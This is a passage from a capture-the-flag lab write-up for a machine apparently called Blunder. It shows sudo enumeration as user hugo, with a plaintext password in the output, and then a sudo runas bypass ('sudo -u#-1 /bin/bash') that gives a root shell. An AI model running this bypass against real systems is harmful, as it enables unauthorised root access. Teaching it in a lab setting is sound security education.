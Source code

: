 ```bash
-rw-r--r--  1 hugo hugo 3771 Nov 28  2019 .bashrc
drwx------ 13 hugo hugo 4096 Apr 27 14:29 .cache
drwx------ 11 hugo hugo 4096 Nov 28  2019 .config
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Desktop
...
drwx------  2 hugo hugo 4096 Apr 27 14:30 .ssh
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Templates
-r--------  1 hugo hugo   33 Oct 17 09:31 user.txt
drwxr-xr-x  2 hugo hugo 4096 Nov 28  2019 Videos
```

## Privesc Enumeration as hugo

### List Sudo privileges
We can list our sudo privileges:
<br />
```bash
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```
<br />It looks like we can sudo commands but just not root. However, we can bypass this.

## Sudo Vulnerability
We can bypass the sudo config and it is described [here](https://www.exploit-db.com/exploits/47502)

## Escalating from hugo to root

### Sudo Exploit
To exploit, run the following command:
<br />
```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo#
```
<br />We are now root! At this point, we can now retrieve the root flag
<br />
```bash
root@blunder:/# cd /root
cd /root
root@blunder:/root# ls -la
ls -la
total 36
drwx------  6 root root 4096 Apr 28 12:13 .
drwxr-xr-x 21 root root 4096 Apr 27 14:09 ..
lrwxrwxrwx  1 root root    9 Apr 28 12:13 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Aug 27  2019 .bashrc
drwx------  6 root root 4096 Nov 27  2019 .cache
drwx------  8 root root 4096 Nov 27  2019 .config
drwx------  3 root root 4096 Nov 27  2019 .dbus
drwxr-xr-x  3 root root 4096 Nov 27  2019 .local
-rw-r--r--  1 root root  148 Aug 27  2019 .profile
-r--------  1 root root   33 Oct 17 09:31 root.txt
```
